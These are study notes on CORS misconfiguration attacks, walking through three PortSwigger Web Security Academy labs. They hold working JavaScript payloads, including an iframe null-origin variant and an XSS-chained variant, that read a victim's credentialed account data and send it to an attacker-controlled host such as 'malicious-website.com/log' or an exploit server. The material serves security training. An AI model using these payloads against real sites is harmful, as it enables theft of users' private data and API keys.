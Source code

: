 # CORS Notes

[Portswigger](https://portswigger.net/web-security/cors#what-is-cors-cross-origin-resource-sharing)

## Methodology

Example script to steal info from a user

```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
```

Using that script in an iframe for a whitelisted null in the origin value:

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```


## Labs Walkthrough

### CORS Vulnerability with Basic Origin Reflection Attack

- log into application and review the request to /accountDetails
- notice the usage of the `Access-Control-Allow-Origin` header, suggesting the usage of CORS
- ![image](https://github.com/user-attachments/assets/88d4be40-617a-442d-b257-20e37916e5e5)
- - we can validate it reflects the cors by adding an arbitrary Origin header with anything and view the response `Access-Control-Allow-Origin` header having our arbitrary value reflected
- ![image](https://github.com/user-attachments/assets/282744d5-6db9-4474-ad93-66a449f30432)
- create the request by using the /accountDetails as the path for sensitive data and set location to just /log

```
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','0aab0073041f4fa4815f39dc00ce00a4.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='/log?key='+this.responseText;
};
</script>
```

- after storing and delivering to the victim, go to access log to find the api key to submit

### CORS Vulnerability with trusted null origin

- again login with creds and view the login and notice the `/accountDetails` page
- you can add null in this request to validate that it does accept null and `Access-Control-Allow-Credentials` is set to true
- ![image](https://github.com/user-attachments/assets/8ee159ca-75a2-4259-ab7d-9a4f12440cf1)
- now craft exploit to abuse, using sample from methodology above

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','0a74004304f82b2983e2d8ec00d8009c.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='/log?key='+this.responseText;
};
</script>"></iframe>
```

- store and view, check your api creds get logged, then deliver to victim to steal theirs

### CORS vulnerability with trusted insecure protocols

- Review the history and observe that your key is retrieved via an AJAX request to /accountDetails, and the response contains the Access-Control-Allow-Credentials header suggesting that it may support CORS.
- Send the request to Burp Repeater, and resubmit it with the added header Origin: http://subdomain.lab-id where lab-id is the lab domain name.
- Observe that the origin is reflected in the Access-Control-Allow-Origin header, confirming that the CORS configuration allows access from arbitrary subdomains, both HTTPS and HTTP.
- Open a product page, click Check stock and observe that it is loaded using a HTTP URL on a subdomain
- Observe that the productID parameter is vulnerable to XSS
- In the browser, go to the exploit server and enter the following HTML, replacing YOUR-LAB-ID with your unique lab URL and YOUR-EXPLOIT-SERVER-ID with your exploit server ID

```
<script>
document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

- click view exploit, check if it works and send to victim
